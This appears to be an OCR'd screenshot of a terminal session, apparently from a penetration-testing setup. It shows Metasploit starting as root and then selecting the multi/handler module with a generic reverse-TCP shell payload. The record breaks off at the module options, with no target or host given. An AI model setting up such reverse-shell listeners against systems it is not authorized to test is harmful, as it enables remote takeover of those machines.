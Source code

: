 
```shell
┌──(root💀Ptes)-[/home/stage]
└─# msfconsole                                                                                                  1 ⨯
                                                  

      .:okOOOkdc'           'cdkOOOko:.                                                                             
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.                                                                           
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:                                                                          
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'                                                                         
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo                                                                         
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx                                                                         
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl                                                                         
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.                                                                         
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc                                                                          
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo                                                                           
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl                                                                            
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;                                                                             
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.                                                                              
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,                                                                                
           :kk;.OOOOOOOOOOOOO.;Ok:                                                                                  
             ;kOOOOOOOOOOOOOOOk:                                                                                    
               ,xOOOOOOOOOOOx,                                                                                      
                 .lOOOOOOOl.                                                                                        
                    ,dOd,                                                                                           
                      .                                                                                             

       =[ metasploit v6.1.14-dev                          ]
+ -- --=[ 2180 exploits - 1155 auxiliary - 399 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can upgrade a shell to a Meterpreter 
session on many platforms using sessions -u 
<session_id>                                                                                                        

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

```